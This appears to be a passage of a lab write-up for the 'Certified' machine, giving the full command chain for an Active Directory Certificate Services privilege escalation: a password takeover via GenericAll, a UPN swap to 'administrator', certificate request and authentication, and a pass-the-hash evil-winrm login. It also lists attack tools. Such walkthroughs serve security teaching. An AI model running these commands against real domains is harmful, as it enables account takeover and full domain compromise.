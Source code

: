 
## Domain Admin & Final Access

- **Take Over CA Operator & Abuse UPN**
    ```
    bloodyAD --host DC01.certified.htb -d certified.htb -k set password ca_operator test123456
    certipy find -dc-ip 10.129.94.37 -target DC01.certified.htb -u ca_operator -p 'test123456' -vulnerable
    bloodyAD --host DC01.certified.htb -d certified.htb -k get object ca_operator --attr userPrincipalName
    bloodyAD --host DC01.certified.htb -d certified.htb -k set object ca_operator userPrincipalName -v administrator
    sudo ntpdate -u 10.129.94.37
    certipy-ad req -dc-ip 10.129.94.37 -target DC01.certified.htb -ca certified-DC01-CA -u ca_operator -p 'test123456' -template 'CertifiedAuthentication'
    bloodyAD --host DC01.certified.htb -d certified.htb -k set object ca_operator userPrincipalName -v ca_operator@certified.htb
    certipy auth -pfx administrator.pfx -domain certified.htb
    evil-winrm -i certified.htb -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
    ```
    - Taking over ca_operator by setting its password in BloodyAD possible due to genericAll permission.
    - Check AD CS for vulnerable certificate templates using Certipy.
    - Set ca_operator’s UPN to match administrator’s SAM account name.
    - Request the vulnerable cert as ca_operator.
    - Reset ca_operator’s UPN to avoid any unintended identity mapping collisions.
    - Authenticate as Administrator using the issued certificate.

---

## Stepwise PoC

<details><summary>💻<strong>(click to expand)</strong> </summary></details>

---

## Tools Used

- **nmap**: Fast port scanner for network service discovery.
- **Bloodhound/Bloodhound-python**: Active Directory attack path mapping and privilege visualization.
- **evil-winrm**: Tool to gain remote PowerShell access via WinRM.
- **python owneredit.py**/**bloodyAD**: Tools for manipulating AD group ownership and ACLs.
- **net rpc**: Manage domain groups via SMB from Linux.
- **sudo ntpdate**: Syncs attacker's system time to target domain controller.
- **impacket-GetUserSPNs**: Performs kerberoasting attack to extract service principal names.
- **john/hashcat**: Cracks hashes obtained from Kerberoasting or other attacks.
- **certipy**: Attacks and abuses Active Directory Certificate Services (ADCS).
- **impacket-getTGT**: Forges Kerberos tickets using NTLM hashes.
  
Each tool is chosen for its ability to perform reconnaissance, privilege escalation, and exploitation techniques against AD environments.

---